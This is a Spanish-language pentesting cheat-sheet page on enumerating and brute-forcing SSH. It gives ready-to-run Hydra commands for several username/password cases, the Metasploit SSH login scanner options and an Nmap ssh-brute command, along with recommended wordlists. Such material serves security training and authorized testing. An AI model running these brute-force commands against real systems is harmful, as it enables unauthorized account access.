 ```yaml
---
description: En esta página aprenderás a enumerar y hacer fuerza bruta ante el servicio SSH
cover: >-
  https://images.unsplash.com/photo-1576502200916-3808e07386a5?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHw2fHxnZW9tZXRyaWN8ZW58MHx8fHwxNjg5MjQxNDA2fDA&ixlib=rb-4.0.3&q=85
coverY: 278
---
```


# SSH

## Fuerza Bruta

{% hint style="success" %}
A la hora de emplear diccionarios se recomiendan los siguientes:

### Usuarios

```
/usr/share/wordlists/metasploit/unix_users.txt
```

### Contraseñas

```
/usr/share/wordlists/rockyou.txt
```
{% endhint %}

### Hydra

Para poder hacer fuerza bruta con hydra al servicio SSH, se pueden dar varios casos, en el caso de que tengas el usuario pero no la contraseña, deberás de usar un diccionario en este aspecto, por lo que el comando sería el siguiente

```bash
hydra -l user -P passwords.txt ssh://127.0.0.1 -t 15
```

En este caso con el parámetro `-l` le indicamos que sabemos el usuario y con el parámetro `-P` le indicamos la ruta donde esta el diccionario de contraseñas.

{% hint style="warning" %}
Puede que el servicio SSH no se encuentre en el puerto predefinido, en ese caso deberemos de especificar a hydra el puerto en el que está, esto se hace con el parámetro `-s`

```bash
hydra -l user -P passwords.txt ssh://127.0.0.1 -t 15 -s 2000
```
{% endhint %}

En el caso contrario de que no sepas el usuario pero si la contraseña, los parámetros querían así:

```bash
hydra -L users.txt -p Password123 ssh://127.0.0.1 -t 15
```

En este comando, le indicamos la ruta del diccionario de usuarios con el parámetro en mayúscula y una contraseña en concreto con el parámetro en minúscula. En el otro posible caso de que no tengamos ni la contraseña ni el usuario, pondremos los dos parámetros en mayúscula pasándole como valor la ruta del diccionario tanto de usuarios como de contraseñas.

```bash
hydra -L users.txt -P passwords.txt ssh://127.0.0.1 -t 15
```

### Metasploit

Para esto, usaremos el modulo "SSH Login Check Scanner". Deberemos de configurar las siguientes opciones:

* USERNAME -> En el caso de que usemos un usuario concreto
* USER\_FILE -> En el caso de que usemos un diccionario de usuarios
* PASSWORD -> En el caso de que usemos una contraseña concreta
* PASS\_FILE -> En el caso de que usemos un diccionario de contraseñas
* RHOSTS -> IP de la máquina victima

### Nmap

Podemos emplear el script "`ssh-brute`" para usar fuerza bruta. En este caso no es necesario especificar un diccionario de contraseñas, solo de usuarios:

```bash
nmap -p 22 --script ssh-brute --script-args userdb=/root/users 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>
